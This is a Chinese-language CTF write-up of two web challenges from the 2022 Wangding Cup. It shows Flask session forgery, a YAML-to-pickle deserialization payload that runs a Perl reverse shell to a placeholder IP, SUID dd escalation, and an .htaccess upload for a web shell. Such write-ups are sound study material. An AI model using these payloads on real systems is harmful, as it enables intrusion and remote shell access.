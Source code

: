 

# 2022 网鼎杯初赛

听说这次比赛每个队伍拿到的题目编号都是不一样的，但是题目是一样的 233

# 青龙组

## Web669

- 这个是文件上传的题目，后面知道是 CVE-2022-30333

题目界面如图所示

![IndexUpload](images/IndexUpload.png)

根据源代码可知，要登录就必须要将 user 的值修改为 'Administrator'；看着格式非常像一个 JWT 的包，直接修改是不行的。

![IndexUpload](images/Guest.png)

然后发现无论怎么修改，Set-Cookie 都不会变化；后来尘落哥哥点了一下我，是 flask 的 session 伪造攻击，用的工具是这一个。

https://github.com/noraj/flask-session-cookie-manager

对应安装完之后，攻击的 Payload

```bash
python3 flask_session_cookie_manager3.py encode -t  "{'updir': 'static/uploads/4b3cf1ffc9224f4d830c5a29db854d15','user': 'Administrator'}" -s + key
```

发现是需要 key 的，一般 key 是直接提供或者爆破；爆破的话用这个工具

https://github.com/Paradoxis/Flask-Unsign

后续发现 Key 是通过 socket.gethostname() 获取的，之前考虑过目录遍历攻击，但是 `../` 会变成 `空格`，绕过的 EXP 没问题，双写绕过，但是获取的是 `etc/hosts`，结果我写成了 `etc/passwd` 太蠢了。

这里可以成功获取到 hostname 为 engine-1

![IndexUpload](images/GetHostName.png)

通过之前的命令生成 session，然后可以上传图片了

![IndexUpload](images/SuccessSession.png)

后面就没有时间了，不知道该怎么做。

> 听闻我大杰哥说，后续部分是 python yaml load 的反序列化，输的不冤。杰哥说只要上传一句话弹 shell 就好了，可能是非预期吧。

上传一个 .yaml 的反弹 shell 文件就好了，这个还是不太会，借这道题目的机会复现一下吧。

首先制作恶意的rar文件

- yaml文件

由于题目里有过滤条件，通过直接加载 yaml 文件进行命令执行较为困难，所以同步上传一个 pickle 反序列化文件，通过 yaml 加载 pickle 文件进行命令执行。payload：

```python
filename: aaa.rar
files:
      - !!python/object/new:bytes
        - !!python/object/new:map
          - !!python/name:eval
          - ["__import__x28'pickle'x29.loadx28openx28'fileinfo/pik','rb'x29x29"]
```


同时将该yaml文件命名为9d2718721006ee787d641f526da07952.yaml，文件名为第一次上传的正常文件的文件名的md5值，这样访问那个正常rar文件时就可以触发该恶意的yaml文件。

- 恶意pickle反序列化文件
  

手写 opcode，payload：

```python
cos
system
(S'perl -e 'use Socket;$i="ip";$p=7001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};''
tR.
```

- 上传打包好的rar文件
  

将 pickle 文件也打包进去

```python
rar a fileinfo.rar 9d2718721006ee787d641f526da07952.yaml pik
```

在 ./ 目录下上传 fileinfo.rar 文件

更改session， payload：
```python
nbsp;python3 flask_session_cookie_manager3.py encode -s "engine-1" -t "{'updir': './', 'user': 'Administrator'}"     
eyJ1cGRpciI6Ii4vIiwidXNlciI6IkFkbWluaXN0cmF0b3IifQ.YwiwRw.zCEEWeUKe6MANxewBQvv86cfTp
```

上传之后重新访问fff.rar 文件，在服务器端监听收到反弹的shell

发现没有访问flag的权限，全局搜索suid权限命令进行提权访问，发现dd命令可以利用

dd 提权法 ：https://www.cnblogs.com/zlgxzswjy/p/12746160.html

成功获得 flag

# 白虎组
## Web923 文件上传
- 看到师傅们的 WP，都写有说存在 git 泄露，反正我是没找到，不知道在哪儿

扫目录，发现有个 /public 端口是文件上传的业务点，上传什么都是回到 `public/index/index/upload.html`，想了想肯定不对，是有源码泄露的。

源码这里，function uploads()

最后攻击手段的接口 `/public/index.php/index/index/upload.html?file=.htaccess`，htaccess 没被过滤

![IndexUpload](images/htaccess.png)

然后上 .jpg

![IndexUpload](images/getshell.png)

根据时间戳遍历即可，有机会复现一下吧，没机会复现。
